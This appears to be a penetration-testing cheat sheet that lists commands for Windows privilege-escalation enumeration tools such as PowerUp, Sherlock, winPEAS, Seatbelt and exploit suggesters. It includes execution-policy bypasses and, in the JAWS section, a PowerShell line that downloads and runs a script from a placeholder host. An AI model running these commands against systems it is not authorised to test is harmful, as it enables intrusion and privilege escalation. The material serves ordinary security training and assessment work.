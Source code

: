 # enumeration_auto

## Path fix

```bash
set PATH=C:\Windows;C:\Windows\system32;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;%PATH%
```

## [PowerUp.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) | [Sherlock.ps1](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1) | [JAWS.ps1](https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1) | [enjoiz-privesc.ps1](https://github.com/enjoiz/Privesc/blob/master/privesc.ps1)

{% tabs %}
{% tab title="PowerUp.ps1" %}
```bash
# located at /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1

> powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
[OR]
PS> . .\PowerUp.ps1
PS> Invoke-AllChecks
```
{% endtab %}

{% tab title="Sherlock.ps1" %}
```bash
> powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
[OR]
PS> . .\Sherlock.ps1
PS> Find-AllVulns
```
{% endtab %}

{% tab title="JAWS.ps1" %}
```bash
# located at /opt/JAWS/jaws-enum.ps1

> powershell -exec bypass IEX(New-Object Net.WebClient).downloadString('http://IP/jaws.ps1')
```
{% endtab %}

{% tab title="enjoiz-privesc.ps1" %}
```bash
# located at /opt/Privesc/privesc.ps1
> powershell.exe -exec bypass -Command "& {Import-Module .\p.ps1; Invoke-Privesc -Groups 'Users,Everyone,Authenticated Users' -Whoami -Extended -Long}"
```
{% endtab %}
{% endtabs %}

## [winPEAS ](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)| [Seatbelt ](https://github.com/GhostPack/Seatbelt)| [SharpUp](https://github.com/GhostPack/SharpUp)

{% tabs %}
{% tab title="winPEAS" %}
```bash
# need .NET 4.0
# cmd check
> dir /b %windir%\Microsoft.NET\Framework\v*
> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
> reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP\v4" /s

# check for .NET using PS
PS> cmd.exe /c dir /b %windir%\Microsoft.NET\Framework\v*
PS> Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name version -EA 0 | Where { $_.PSChildName -Match '^(?!S)\p{L}'} | Select PSChildName, version

winPEASany.exe quiet [cmd fast] [flag]
# systeminfo; userinfo; processinfo;
# servicesinfo; applicationsinfo; networkinfo;
# windowscreds; browserinfo; filesinfo; eventsinfo
```
{% endtab %}

{% tab title="Seatbelt" %}
```bash
# located at /usr/share/windows-resources/Ghostpack-CompiledBinaries/

> .\Seatbelt.exe -group=[all | <check>] -outputfile="FULL-PATH"
```
{% endtab %}

{% tab title="SharpUp" %}
```bash
# located at /usr/share/windows-resources/Ghostpack-CompiledBinaries/

> .\SharpUp.exe
```
{% endtab %}
{% endtabs %}

## [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) | [wes-ng](https://github.com/bitsadmin/wesng)

{% tabs %}
{% tab title="windows-exploit-suggester" %}
```bash
# needs python2
# copy .
# FIX: python2 -m pip install 'xlrd==1.2.0'

./windows-exploit-s.py --update
./windows-exploit-s.py -d <DB-FILE> -i <SYSTEMINFO.txt> [--hotfixes <>]

# if cannot get hotfixes using systeminfo
wmic qfe list full
```
{% endtab %}

{% tab title="wes-ng" %}
```python
python3 /opt/wesng/wes.py sys.txt --update
python3 /opt/wesng/wes.py systeminfo.txt [--exploits-only] -o wes.csv
# --impact | -i "Remote Code Execution" | "Elevation of Privilege"
# --severity critical
```
{% endtab %}
{% endtabs %}

{% embed url="https://github.com/SecWiki/windows-kernel-exploits" %}
